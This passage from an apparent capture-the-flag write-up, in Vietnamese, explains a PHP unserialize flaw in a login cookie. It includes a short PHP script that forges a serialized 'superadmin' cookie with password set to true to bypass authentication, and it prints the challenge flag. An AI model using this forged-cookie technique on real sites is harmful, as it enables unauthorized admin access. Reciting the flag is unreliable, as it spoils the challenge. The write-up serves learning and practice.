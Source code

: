 ```
/*********************************/
?>
```

Có thể thấy tại đây -> có chức năng login hoặc nếu có cookie ghi nhớ thì nó sẽ được unserialize

```
<?php

// message ?
if(!empty($message))
    echo "<p><em>$message</em></p>";

// admin ?
if($_SESSION['login'] === "superadmin"){
    require_once('admin.inc.php');
}
// user ?
elseif (isset($_SESSION['login']) && $_SESSION['login'] !== ""){
    require_once('user.inc.php');
}
// not authenticated ? 
else {
?>
```

$_SESSION['login'] === "superadmin" thì có vẻ như hiển thị trang admin

![image](https://hackmd.io/_uploads/Hy7IAUZxyx.png)

![image](https://hackmd.io/_uploads/HJpn-vZxyg.png)

![image](https://hackmd.io/_uploads/rJtktqXgyl.png)

```
<?php
$data['login'] = 'superadmin';
$data['password'] = true;

$s = serialize($data);
// $s = 'a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}';

echo urlencode($s);

// var_dump(unserialize($s));
?>
```

![image](https://hackmd.io/_uploads/BJmaFqXxJl.png)

flag: `NoUserInputInPHPSerialization!`

## SQL injection - Numeric
